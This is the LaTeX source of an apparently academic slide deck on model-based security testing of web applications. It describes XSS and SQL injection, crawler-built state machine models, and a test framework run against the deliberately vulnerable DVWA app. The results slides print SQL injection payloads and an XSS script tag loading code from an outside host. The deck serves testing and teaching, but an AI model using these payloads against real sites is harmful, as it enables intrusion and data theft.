% Copyright 2004 by Till Tantau <tantau@users.sourceforge.net>.
%
% In principle, this file can be redistributed and/or modified under
% the terms of the GNU Public License, version 2.
%
% However, this file is supposed to be a template to be modified
% for your own needs. For this reason, if you use this file as a
% template and not specifically distribute it as part of a another
% package/program, I grant the extra permission to freely copy and
% modify this file as you see fit and even to delete this copyright
% notice. 

\documentclass{beamer}

\usepackage{algorithm}
\usepackage{algorithmic}

% There are many different themes available for Beamer. A comprehensive
% list with examples is given here:
% http://deic.uab.es/~iblanes/beamer_gallery/index_by_theme.html
% You can uncomment the themes below if you would like to use a different
% one:
%\usetheme{AnnArbor}
%\usetheme{Antibes}
%\usetheme{Bergen}
%\usetheme{Berkeley}
%\usetheme{Berlin}
%\usetheme{Boadilla}
%\usetheme{boxes}
%\usetheme{CambridgeUS}
%\usetheme{Copenhagen}
%\usetheme{Darmstadt}
\usetheme{default}
%\usetheme{Frankfurt}
%\usetheme{Goettingen}
%\usetheme{Hannover}
%\usetheme{Ilmenau}
%\usetheme{JuanLesPins}
%\usetheme{Luebeck}
%\usetheme{Madrid}
%\usetheme{Malmoe}
%\usetheme{Marburg}
%\usetheme{Montpellier}
%\usetheme{PaloAlto}
%\usetheme{Pittsburgh}
%\usetheme{Rochester}
%\usetheme{Singapore}
%\usetheme{Szeged}
%\usetheme{Warsaw}

\title{Model Based Security Testing for Web Applications}

% A subtitle is optional and this may be deleted
%\subtitle{Optional Subtitle}

\author{Anbarasan Kannan(163050071)\inst{1} }
% - Give the names in the same order as the appear in the paper.
% - Use the \inst{?} command only if the authors have different
%   affiliation.


\institute[IIT BOMBAY] % (optional, but mostly needed)
{
  \inst{1}%
  Department of Computer Science\\
  IIT Bombay}
% - Use the \inst command only if there are several affiliations.
% - Keep it simple, no one is interested in your street address.

\date{June, 2018}
% - Either use conference name or its abbreviation.
% - Not really informative to the audience, more for people (including
%   yourself) who are reading the slides online

%\subject{Theoretical Computer Science}
% This is only inserted into the PDF information catalog. Can be left
% out. 

% If you have a file called "university-logo-filename.xxx", where xxx
% is a graphic format that can be processed by latex or pdflatex,
% resp., then you can add a logo as follows:

% \pgfdeclareimage[height=0.5cm]{university-logo}{university-logo-filename}
% \logo{\pgfuseimage{university-logo}}

% Delete this, if you do not want the table of contents to pop up at
% the beginning of each subsection:
\AtBeginSubsection[]
{
  \begin{frame}<beamer>{Outline}
    \tableofcontents[currentsection,currentsubsection]
  \end{frame}
}

% Let's get started
\begin{document}

\begin{frame}
  \titlepage
\end{frame}

\begin{frame}{Outline}
  \tableofcontents
  % You might wish to add the option [pausesections]
\end{frame}

% Section and subsections will appear in the presentation overview
% and table of contents.
\section{Introduction}


\begin{frame}{Web Applications}

  \begin{itemize}
  \item Web Applications are application programs that are stored in remote servers and delivered over the Internet using browser interfaces.
  \item Web Applications are client-server programs that is accessed over a HTTP/HTTPS connection. The user interface of web applications are built using the interplay of HTML, CSS and JavaScript.
  \item Examples: e-commerce websites, online forms, content management systems and email programs
\end{itemize}
\end{frame}

\begin{frame}{Web Application Model}

  \begin{itemize}
  \item Systems Under Test(SUT) referes to the web application being modelled and subjected to testing.
  \item A model is an abstraction or simplification of the behavior of the web application under test(SUT).
  \item The model represents the architecture of the web application.
\end{itemize}
\end{frame}

% You can reveal the parts of a slide one at a time
% with the \pause command:
\begin{frame}{Model Based Testing}
\begin{itemize}
\item Model-based testing is a technique for designing and executing applications to perform testing (includes Test cases to be executed on every object in the model).
\item In Model Based Testing, test cases are generated automatically and systematically from the model of the system under test. There are three step in Model based Testing.
\item Model of the SUT is built from informal requirements or from the functionality of the SUT. 
\item Execution traces of the model are used to generate test cases. Since there can be infinitely many/long execution traces be present, test selection criteria is applied reduce the testcases. 
\item Using the test model and the test selection criteria, Test cases are derived for model based testing. 
\end{itemize}    
\end{frame}

\begin{frame}{Model Based Security Testing}
  \begin{itemize}
  \item Model based testing approach can be adapted to test security of web applications. 
  \item Model Based Security Testing involves two steps- Modeling activity to capture the behaviorial aspects and/or architecture of the web application. 
  \item The next step is to define the test purposes- in this case to test the security in particular the type of attack on web security.
  \item In our approach, the test purposes is to test Cross Site Scripting(XSS) and SQL Injection vulnerability of web applications using finite state machine model.
  
  \end{itemize}
\end{frame}

\begin{frame}{PROBLEM STATEMENT}
\begin{itemize}
    \item The growth of Internet and evolution of web application technologies has led to the vulnerabilities in security- data confidentiality, data integrity and service availability. 
    \item Manual testing of security in web applications is time consuming.
    \item Web Vulnerability scanners can be used to detect vulnerabilities but they often led to generation of false positive and false negative results.
    \item Lack of proper documentation of web applications or various technologies used for developing web applications leads to difficulty of deriving model.
    \item Modern web applications are no more static but dynamic due to the extensive use of Javascript and XML.  (Asynchronous Javascript and XML) AJAX. These calls needs to be validated and tested thoroughly to prevent information leaks. 
\end{itemize}
\end{frame}

\section{Web Application Security Vulnerabilities}
\begin{frame}{XSS-Cross Site Scripting}
\begin{itemize}
    \item Cross Site scripting or XSS attack targets end-users. User input fields such as form field, url parameter, cookies are vulnerable to XSS attacks. 
    \item An attacker can inject malicious script, usually written in JavaScript, which will be executed by an end-user browser through the input fields in web applications. 
    \item Malicious scripts can access session tokens, cookies, and other sensitive information   
    \item In reflected XSS attacks, the malicious script is executed immediately and response containing malicious data is provided to the end-user. 
    \item In stored XSS attacks, the malicious data is saved in the application’s database, and can be retrieved by the attacker.
\end{itemize}
\end{frame}


\begin{frame}{XSS Attack Pattern}
 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{MTP4.png}
\end{figure}
\end{frame}


\begin{frame}{SQLI-SQL Injection}
\begin{itemize}
    \item SQL injection or SQLI is an attack that uses malicious SQL code for backend database manipulation to access information that was not intended to be displayed to the normal end user. 
    \item This database information may include any number of items, including sensitive company data, user lists or user private data.
    \item A successful SQLI attack can result in the unauthorized viewing of user lists, the deletion of entire tables in database and, database administrative rights being granted to the end user.
    \item An attacker in SQL injection manipulates a standard SQL query to exploit non-validated input(user input fields) vulnerabilities in a database.
\end{itemize}    
\end{frame}


\begin{frame}{SQL Injection Attack}
 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.4]{MTP6.jpg}
\end{figure}
\end{frame}


\section{Literature Survey}
\begin{frame}{Literature Survey\\\\WebMate: A Tool for Testing Web 2.0 Applications}
\begin{itemize}
    \item Automatically crawls through the Web applications performing regular application testing as well as cross browser compatibility testing.
    \item Creates a usage model by crawling and triggering user actions with a javascript event handler.
    \item This usage model is extracted and different browsers and the model is compared with a reference model to capture cross-browser compatibility issues.
\end{itemize}
\end{frame}

\begin{frame}{Working of Webmate Testing Tool}
 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{MTP1.png}
\end{figure}
\end{frame}

\begin{frame}{Crawling AJAX-Based Web Applications through Dynamic Analysis}
    \begin{itemize}
    \item In Multi-page web appliations, each page has a unique URL assigned to them but with AJAX pages are dynamic which multiple content can be assigned to same URL. 
    \item Extraction of hyperlinks and creating a model does not accurately represent the architecture of web applications. \\ 
    \item Instead of hyperlinks javascript handler can be used to navigate the application and create a model. 
    \item The web applications are dynamically represented through the Document Object Model(DOM). The User Interface changes are accurately represented by DOM changes instead of URL changes.
    \end{itemize}
\end{frame}

\begin{frame}{Search-based security testing of web applications}
 \begin{itemize}
    \item Biofuzz, search-based security testing tool proposes a blackbox testing technique to inject malicious SQL data to detect SQL Injection vulnerabilities.
    \item It  injects malicious SQL query in form inputs and based on the feedback of SQL query it detects whether the attack is successful.  \\ 
    \item It identifies target input parameters such as form input fields, and generate form inputs to the server. 
    \item Biofuzz tool finds all the input fields with a crawler to detect input fields vulnerable to SQL attacks.
    \end{itemize}
\end{frame}

\section{Modelling Techniques for Web Applications}

\begin{frame}{Modelling Techniques for Web Applications\newline \newline Navigation Graph Model}

\begin{itemize}
    \item In Navigation Graph model, a graph is built with nodes and edges where each node represents a Web page and each edge represents a link.
    \item It is a model built by a Web crawler (or Web spider) program that automatically traverses the Web application’s hyperlink structure and retrieves the content of the Web pages.
    \item This model considers only static HTML elements such as hyperlinks and ignore all the dynamic elements such as AJAX elements.
    \item In this model, each web page url is a different node and if multiple web pages have the same url(dynamic content) this model does not represent the accurate website structure. 
\end{itemize}
    
\end{frame}

\begin{frame}{Document Object Model(DOM) Tree}
\begin{itemize}
    \item The Document Object Model (DOM) is a programming interface(API) for HTML and XML documents. 
    \item It represents the document structure, style and content of web applications.
    \item DOM is represented as nodes and objects in the document. A Web page is a document encoded in HTML(XML). 
    \item DOM is an object-oriented representation of the web page, which can be modified in the webpages with JavaScript.
    \item Every HTML element is considered as an object. The DOM represents the web page as a tree structure of HTML tags.
\end{itemize}
\end{frame}

\begin{frame}{Example DOM Tree}
 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{MTP3.png}
\end{figure}
\end{frame}


\begin{frame}{Finite State Machine}
 \begin{itemize}
     \item In Finite State Machine, since each node represents a different state of an web application and each edge between nodes represents a transition performed on a clickable element. 
     \item The home web page is defined as the root or start state and new states are added as the application is crawled. 
     \item To find the clickable elements in a webpage, the DOM model of the web page is extracted and the clickable elements are obtained. These elements are subjected to click events and then the resulting DOM model is obtained. 
    \item In case there is a change in DOM, then a new state is created and an edge is added between the states.  This crawling procedure is recursively called to find all possible states.
\end{itemize}    
\end{frame}


\begin{frame}{Our Choice of Web Application Model and Tool}

\begin{itemize}
        \item Since the modern web applications are AJAX based and dynamic in nature, the Finite State Machine Model is better than navigation graph model with each node representing the state of DOM. 
        \item Crawljax, an open source tool is selected as the the crawling tool for modeling web applications. 
    \end{itemize}
\end{frame}


\begin{frame}{State Machine Model Structure}
 \begin{itemize}

     \item State Machine for a Web Applications is characterized with three tuple (r, V, E) 
     \item r is the root element or initial state of the model
     \item E is the edges or transitions associated with states after clicking capable events(candidate elements).     
     \item V is the list of vertices which is recognized as the DOM states in the model
 \end{itemize}
 \end{frame}
 
 
\begin{frame}{Generation of State Machine Model}
 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{MTP2.png}
\end{figure}
\end{frame}

 
\begin{frame}{Generation of State Machine Model}
\begin{itemize}
    \item The browser is intialized and the DOM tree of the web application is extracted and the DOM state is created as the root element.
    \item The next step is to find the clickable events in the webpage by analyzing DOM Tree, both HTML hyperlinks and javascript events(eg. Onclick events). These are candidate elements for firing transitions.
    \item Candidate elements are activated one by one and the resulting DOM tree is extracted and compared with the existing DOM states by the use of a comparator. 
    \item The DOM tree is converted into strings and the string is the matched with the result state is added to the state machine with an edge added to the previous state. 
    \item All the states reachable from the initial state is determined by firing events with all candidate events.
\end{itemize}
\end{frame}


\begin{frame}{Example State Machine}
 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.4]{MTP5.png}
\end{figure}
\end{frame}



\section{Security Test Framework}
\begin{frame}{Security Test Framework}

 \begin{figure}[h]
    \centering
    
\includegraphics[scale=0.2]{MTP8.jpg}
\end{figure}
\end{frame}


\begin{frame}{Implementation of Test FrameWork}
\begin{itemize}
    \item The Test Automation frameWork is implemented in python using Mechanize Browser
    \item Mechanize is a headless browser extension supported by python using urllib3 library for HTTP requests.
    \item The form and input fields are injected with malicious test codes and submitted for each states using request feature in mechanize.
    \item The HTML response is parsed with BeautifulSoup library in python
    \item If the security vulnerability is detected, it is reported to the tester in HTML report
    
\end{itemize}

\end{frame}



\section{Test Suite Generation based on Model}
\begin{frame}{Test Suite Generation for XSS Attack}
\begin{itemize}
    \item The test cases are derived for the search query with the expected initial and final states.
    \item The initial State is Root DOM state 
    \item Target Elements: Input Box and Form Fields
    \item Expected Target State: Search results DOM state. 
    \item Test Procedure: A malicious javascript is the input value of the testcase. The result of the testcase can be obtained by parsing the HTML code in the result web page. 
    \item If the code is treated as javascript then any malicious script can be executed in the web application. Any DOM state other than expected DOM state or if the application stays in the initial DOM state indicates that the application is vulnerable to XSS attack. 
    \item The testsuite is generated for all DOM states and different javascript attack codes.

\end{itemize}
\end{frame}

\begin{frame}{Test Suite Generation for SQLI Attack}
\begin{itemize}
    \item The test suite for SQLI attack is generated by deriving SQL queries for retrieving stored data. 
    \item Target Elements: Input fields such as username and password field which which will be translated as a SQL query to validate credentials in the database. 
    \item The target input fields vulnerable to SQLI attacks are extracted from the State graph model. 
    \item The sequence of SQL queries which potentially extracts data from the database or modifies the data are formulated. 
    \item The expected behavior is that the resulting SQL response should contain an error.


\end{itemize}
\end{frame}

\section {Experimentation and Results}
\begin{frame}{Case Study with Web Application DVWA}

\item DVWA-Damn Web Vulnerable Application is a PHP/MySQL application which
contains security vulnerabilities such as SQL Injection, Reflected XSS and Stored XSS Attacks.
\item DVWA Web applications contains three levels of security low, medium and high with decreasing levels of security vulnerability
\item DVWA application is hosted in a web server and then tested with our framework

\end{frame}

\begin{frame}{States Generated in Model}
\begin{table}[]
\centering
\label{State Generated in Model}
\begin{tabular}{||c | c||}
\hline
/dvwa/vulnerabilities/sqli/                & state9,  \\
/dvwa/vulnerabilities/sqli/                & state9,  \\
/dvwa/vulnerabilities/csrf/                & state6,  \\
/dvwa                                      & index,   \\
/dvwa/vulnerabilities/exec/                & state5,  \\
/dvwa/vulnerabilities/fi/?page=include.php & state8,  \\
/dvwa/vulnerabilities/captcha/             & state7,  \\
/dvwa/instructions.php                     & state2,  \\
/dvwa/vulnerabilities/brute/               & state4,  \\
/dvwa/setup.php                            & state3,  \\
/dvwa/vulnerabilities/xss\_s/              & state13, \\
/dvwa/vulnerabilities/xss\_r/              & state12, \\
/dvwa/vulnerabilities/upload/              & state11, \\
/dvwa/vulnerabilities/sqli\_blind/         & state10, \\
/dvwa/login.php                            & state17, \\
/dvwa/about.php                            & state16, \\
/dvwa/phpinfo.php                          & state15, \\
/dvwa/security.php                         & state14 \\
\hline

\end{tabular}
\end{table}

\end{frame}

\begin{frame}{Points of vulnerability identified from model}

\textbf{State9}

$<input name="id" type="text"/>$

$<input name="Submit" type="submit" value="Submit"/>$

\newline
\textbf{State17}

 $<input class="loginInput" name="username" size="20" type="text"/>$

 $<input autocomplete="off" class="loginInput" name="password" size="20" type="password"/>$

 $<input name="Login" type="submit" value="Login"/>$

\newline
\\
\textbf{State13}

$<input maxlength="10" name="txtName" size="30" type="text"/>$

$<input name="btnSign" onclick="return checkForm();" type="submit" value="Sign Guestbook"/>$

\end{frame}

\begin{frame}


\\
\newline
\textbf{State10}

$<input name="id" type="text"/>$

$<input name="Submit" type="submit" value="Submit"/>$

\\    
\newline
\textbf{State4}

$<input name="username" type="text"/>$

$<input autocomplete="none" name="password" type="password"/>$

$<input name="Login" type="submit" value="Login"/>$
\\
\newline
\textbf{State11}

$<input name="MAX$\_$FILE$\_$SIZE" type="hidden" value="100000"/>$

$<input name="uploaded" type="file"/>$

$<input name="Upload" type="submit" value="Upload"/>$

\\
\newline
\textbf{State7}

$<input name="step" type="hidden" value="1"/>$

$<input autocomplete="none" name="password$\_$new" type="password"/>$

 $<input name="Change" type="submit" value="Change"/>$

\end{frame}

\begin{frame}

\newline
\textbf{State5}

$<input name="ip" size="30" type="text"/>$

$<input name="submit" type="submit" value="submit"/>$

\newline
\\
\textbf{State6}

$<input autocomplete="none" name="password$\_$new" type="password"/>$

$<input autocomplete="none" name="password$\_$conf" type="password"/>$

$<input name="Change" type="submit" value="Change"/>$
 
\newline
\\
\textbf{State12}

$<input name="name" type="text"/>$

$<input type="submit" value="Submit"/>$

\newline


    
\end{frame}


\begin{frame}{Validation Results of execution in Browser}
    
The final phase of our tool is presenting the results of execution to the user in a html report.
\\
\newline
\textbf{XSS and SQL Injection Test Results}
\newline
\\
\textbf{State11: }
\newline
No candidate elements for Reflected and stored XSS vulnerability
\newline
No candidate elements for SQL Injection 
\newline
\\
\textbf{State10: }
\newline
No Reflected XSS and stored Vulnerability not found for script
\newline
\textbf{SQL Injection Vulnerability found for payload\\ 
$ 1 UNION ALL SELECT 1,2,3,4,5,6,name FROM sysObjects \\
WHERE xtype = \'U\' -- $}

\end{frame}


\begin{frame}{}
\newline
\\
\textbf{State14: }
\\
\newline
No Reflected XSS and stored Vulnerability not found for script
\newline
\textbf{SQL Injection Vulnerability found for payload}
\\
$1 AND USER$\_$NAME() = 'usr' $
\newline
\\
\textbf{State9: }
\newline
No Reflected and stored XSS Vulnerability not found for script
\newline
\textbf{SQL Injection Vulnerability found for payload}
\\
$1 AND ASCII(LOWER(SUBSTRING $\\ $((SELECT TOP 1 name FROM sysobjects$
\\$WHERE xtype='U'), 1, 1))) > 116 $
\newline
\\
\textbf{State12:} 
\newline
\textbf{Payload Reflected in Response. Reflected XSS Vulnerability found for script}
\\ $<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>$
\newline
\\
\textbf{State13: }
\textbf{Payload loaded from web application. Stored XSS Vulnerability found}
\\$'-alert(3)-'$
\end{frame}

\begin{frame}{Comparison Analysis of Security Testing Tools}
\begin{table}[!htb]
\caption{Comparison Analysis of Security Testing Tools}
\label{Comparitive Analysis of Security Testing Tools}
\resizebox{\linewidth}{!}{%
\begin{tabular}{|l|l|l|l|l|}
\hline
Features                 & Our Framework & BioFuzz       & MBVT Tool    & WebMate       \\
\hline
Model of the tool        & State Machine & State Machine & UML Diagrams & State Machine \\
\hline
Fuzzing based Technique  & Yes           & Yes           & No          & Yes           \\
\hline
XSS Testing              & Yes           & No            & Yes          & No            \\
\hline
SQLI Testing             & Yes           & Yes           & No           & No            \\
\hline
Headless Browser support & Yes           & Yes           & No           & No            \\
\hline
Automation               & Yes           & Yes           & Yes          & Yes\\
\hline
\end{tabular}}
\end{table}
\end{frame}
\begin{frame}[plain,c]
%\frametitle{A first slide}

\begin{center}
\Huge Demo
\end{center}

\end{frame}

\section{Conclusion}
\begin{frame}{Conclusion}
\begin{itemize}
    \item Web application vulnerability scanners generate few false positive and false negative results. 
    \item This can be avoided by blackbox model based security testing. 
    \item The state machine model based on DOM tree is chosen as the model for model based testing since it is flexible for modern web applications. 
    \item Since XSS and SQL Injection are the most common security threats, they are chosen as the attack model. The test suite is generated with the architecture model against the attack model. 
    \item The attack pattern(testsuite) is executed in an automated manner against the web application.

\end{itemize}


\end{frame}

\section{Future Work}
\begin{frame}{Features that can be added}
\begin{itemize}
\item The focus for future work is the extend the framework
to other security attacks such as LDAP Injection, Broken Authentication and session Management.
\item Extending it to browsers by bypassing security configurations of browsers.
\item Integration of Tool to other regression tools by providing API support.
\end{itemize}


\end{frame}



% Placing a * after \section means it will not show in the
% outline or table of contents.

% All of the following is optional and typically not needed. 
\appendix
\section<presentation>*{\appendixname}
\subsection<presentation>*{For Further Reading}

\begin{frame}[allowframebreaks]
  \frametitle<presentation>{Bibliography}
    
  \begin{thebibliography}{10}
    
  %\beamertemplatebookbibitems
  % Start with overview books.

  \bibitem{Someone2000}
  Valentin Dallmeier,Martin Burger, Tobias Orth, Andreas Zeller Journal: JSTools'12, June 13, 2012, China.
    \newblock {\em WebMate: A Tool for Testing Web 2.0 Applications}.
    \newblock JSTools'12, June 13, 2012, China.
 
    
  \beamertemplatearticlebibitems
  % Followed by interesting articles. Keep the list short. 

  \bibitem{Someone2000}
    Franck Lebeau, Bruno Legeard, Fabien Peureux.
    \newblock Model-Based Vulnerability Testing for Web Applications
    \newblock {\em 2013 IEEE Sixth International Conference}
    
    \bibitem{Someone2000}
    Julian Thomé, Andreas Zeller, Alessandra Gorla.
    \newblock Search-based security testing of web applications.
    \newblock {\em SBST 2014 Proceedings of the 7th International Workshop on Search-Based Software Testing.}
  
  
    \bibitem{Someone2000}
    Arie van Deursen, Ali Mesbah, Engin Bozdag.
    \newblock Crawling AJAX by Inferring User Interface State Changes
    \newblock {\em 2008. ICWE '08. Eighth International Conference}

    \bibitem{Someone2000}
     F. Ferrucci1 , F. Sarro1 , D. Ronca1 , S. Abrahao2
    \newblock A Crawljax Based Approach to Exploit Traditional Accessibility Evaluation Tools for AJAX Applications.
    \newblock {\em Information Technology and Innovation Trends in Organizations, May 2011.}
    
    \bibitem{Someone2000}
     Adam Kiezun ˙ , Philip J. Guo , Karthick Jayaraman , Michael D. Ernst 
    \newblock Automatic Creation of SQL Injection and Cross-Site Scripting Attacks.

  
  
  
  \end{thebibliography}
\end{frame}
\begin{frame}
\centering
\huge{THANK YOU}
\end{frame}

\end{document}


